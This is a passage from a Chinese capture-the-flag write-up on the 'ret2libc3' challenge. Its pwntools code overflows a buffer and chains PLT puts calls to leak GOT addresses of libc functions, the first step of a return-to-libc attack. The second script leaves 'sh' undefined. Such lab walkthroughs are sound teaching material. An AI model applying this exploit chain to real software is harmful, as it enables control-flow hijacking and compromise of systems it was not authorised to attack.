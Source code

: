 

构造输出payload

```python
plt_puts_addr = p32(binary.plt.puts)  # plt表 调用puts函数
got_puts_addr = p32(binary.got.puts)  # got表 输出puts函数

pop_epb_ret = p32(0x080486ff) # 多次跳转需要


payload = b"A" * 112  #填充直覆盖到返回值前
payload += plt_puts_addr + pop_epb_ret + got_puts_addr
```



同理，我们至少需要得到两个函数的地址才能判断libc版本，越多越好

```python
from pwn import *

binary = ELF("./ret2libc3",checksec=False)
context.log_level = "debug"

plt_puts_addr = p32(binary.plt.puts)

got_puts_addr = p32(binary.got.puts)
got_gets_addr = p32(binary.got.gets)
got_setvbuf_addr = p32(binary.got.setvbuf)

payload = b"A" * 112 

payload += plt_puts_addr + pop_epb_ret + got_puts_addr 
payload += plt_puts_addr + pop_epb_ret + got_gets_addr
payload += plt_puts_addr + pop_epb_ret + got_setvbuf_addr

sh.sendline(payload)

output = sh.recvall()
output = output.split(b'?')[1].split(b'\n')

puts = u32(output[0][0:4])
gets = u32(output[1][0:4])
setvbuf = u32(output[2][0:4])

print(hex(puts))
print(hex(gets))
print(hex(setvbuf))

sh.interactive()
```



输出结果
